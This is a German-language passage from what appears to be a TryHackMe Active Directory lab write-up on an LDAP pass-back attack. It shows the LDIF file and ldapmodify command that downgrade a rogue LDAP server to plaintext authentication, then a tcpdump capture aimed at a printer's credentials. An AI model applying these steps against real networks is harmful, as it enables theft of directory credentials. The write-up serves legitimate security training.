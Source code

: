 Vor der Verwendung des falschen LDAP-Servers müssen wir ihn anfällig machen, indem wir die unterstützten Authentifizierungsmethoden herabstufen. Wir möchten sicherstellen, dass unser LDAP-Server nur die Authentifizierungsmethoden PLAIN und LOGIN unterstützt. Um dies zu tun, müssen wir eine neue LDIF-Datei erstellen, die den folgenden Inhalt enthält:

***olcSaslSecProps.ldif***
``` 
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
Die Datei hat die folgenden Eigenschaften:

    - olcSaslSecProps: Spezifiziert die SASL-Sicherheitseigenschaften.
    
    - noanonymous: Deaktiviert Mechanismen, die anonyme Anmeldungen unterstützen.
    
    - minssf: Spezifiziert die minimale akzeptable Sicherheitsstärke mit 0, was bedeutet, dass keine Schutzmaßnahmen vorhanden sind.

Jetzt können wir die LDIF-Datei verwenden, um unseren LDAP-Server zu patchen, indem wir folgendes verwenden:

>sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

Wir können überprüfen, ob die Konfiguration unseres falschen LDAP-Servers angewendet wurde, indem wir den folgenden Befehl verwenden (Hinweis: Wenn Sie Kali verwenden, erhalten Sie möglicherweise keine Ausgabe. Die Konfiguration sollte jedoch funktioniert haben, und Sie können mit den nächsten Schritten fortfahren):

```
┌──(akwa㉿kali)-[~/thm/ActiveDirectory/breachad/tools]
└─$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: LOGIN
supportedSASLMechanisms: PLAIN
```

### Capturing LDAP Credentials

Unser falscher LDAP-Server wurde nun konfiguriert. Wenn wir auf "Testeinstellungen" unter http://printer.za.tryhackme.com/settings.aspx klicken, erfolgt die Authentifizierung im Klartext. Wenn Sie Ihren falschen LDAP-Server korrekt konfiguriert haben und er die Kommunikation herabstuft, erhalten Sie folgenden Fehler: "Diese unterscheidende Namen enthalten ungültige Syntax". Wenn Sie diesen Fehler erhalten, können Sie mit dem folgenden Befehl einen tcpdump verwenden, um die Anmeldeinformationen zu erfassen:

```
┌──(akwa㉿kali)-[~/thm/ActiveDirectory/breachad/tools]
└─$ sudo tcpdump -SX -i breachad tcp port 389
[sudo] Passwort für akwa: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on breachad, link-type RAW (Raw IP), snapshot length 262144 bytes
12:27:20.664888 IP 10.200.32.201.59907 > kali.ldap: Flags [SEW], seq 671456394, win 64240, options [mss 1289,nop,wscale 8,nop,nop,sackOK], length 0
        0x0000:  4502 0034 7fcf 4000 7f06 290f 0ac8 20c9  E..4..@...).....
        0x0010:  0a32 1d21 ea03 0185 2805 9c8a 0000 0000  .2.!....(.......
        0x0020:  80c2 faf0 710e 0000 0204 0509 0103 0308  ....q...........
        0x0030:  0101 0402                                ....
12:27:20.664922 IP kali.ldap > 10.200.32.201.59907: Flags [S.], seq 2176313445, ack 671456395, win 64240, options [mss 1460,nop,nop,sackOK,nop,wscale 7], length 0
        0x0000:  4500 0034 0000 4000 4006 e7e0 0a32 1d21  E..4..@.@....2.!
        0x0010:  0ac8 20c9 0185 ea03 81b7 e865 2805 9c8b  ...........e(...

        ...................

        0x0000:  4500 0069 7fda 4000 7f06 28d1 0ac8 20c9  E..i..@...(.....
        0x0010:  0a32 1d21 ea04 0185 23a3 7a1b 2762 1c68  .2.!....#.z.'b.h
```